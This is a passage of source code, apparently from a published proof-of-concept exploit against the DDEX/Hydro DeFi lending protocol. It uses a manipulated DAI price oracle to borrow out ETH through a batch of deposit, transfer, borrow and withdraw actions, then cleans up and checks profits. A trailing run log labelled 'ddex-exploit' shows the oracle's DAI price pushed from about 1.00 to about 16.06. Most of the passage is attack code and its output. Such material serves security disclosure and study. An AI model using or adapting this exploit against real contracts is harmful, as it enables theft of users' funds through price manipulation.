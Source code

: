 ```javascript
            marketID: 0,
            user: address(this)
        });
        HydroLike.BalancePath memory ethDaiPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.CollateralAccount,
            marketID: 1,
            user: address(this)
        });
        
        uint ethWanted = HYDRO.getPoolCashableAmount(HYDRO_ETH);
        uint daiRequired = ETH_ORACLE.getPrice(HYDRO_ETH) * ethWanted * ethDaiMarket.withdrawRate / DAI_ORACLE.getPrice(DAI) / 1 ether + 1 ether;
        
        printf("ethWanted=%.18u daiNeeded=%.18u\n", abi.encode(ethWanted, daiRequired));
        
        HydroLike.Action[] memory actions = new HydroLike.Action[](5);
        actions[0] = HydroLike.Action({
            actionType: HydroLike.ActionType.Deposit,
            encodedParams: abi.encode(address(DAI), uint(daiRequired))
        });
        actions[1] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(DAI), commonPath, ethDaiPath, uint(daiRequired))
        });
        actions[2] = HydroLike.Action({
            actionType: HydroLike.ActionType.Borrow,
            encodedParams: abi.encode(uint16(ETHDAI_MARKET_ID), address(HYDRO_ETH), uint(ethWanted))
        });
        actions[3] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(HYDRO_ETH), ethDaiPath, commonPath, uint(ethWanted))
        });
        actions[4] = HydroLike.Action({
            actionType: HydroLike.ActionType.Withdraw,
            encodedParams: abi.encode(address(HYDRO_ETH), uint(ethWanted))
        });
        DAI.approve(address(HYDRO), daiRequired);
        HYDRO.batch(actions);
    }
    
    function cleanup() external {
        DAI.approve(address(MATCHING_MARKET), uint(-1));
        MATCHING_MARKET.sellAllAmount(DAI, boughtFromMatchingMarket, WETH, uint(0));
        WETH.withdrawAll();
        
        DAI.giveAllToUniswap();
        require(DAI_ORACLE.updatePrice());
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
}

/*
### running script "ddex-exploit" at block 8572000
#### executing step: exploit
##### calling: checkRates()
eth=213.440000000000000000 dai=1.003140638067989051
##### calling: skewRates()
##### calling: checkRates()
eth=213.440000000000000000 dai=16.058419875880325580
```
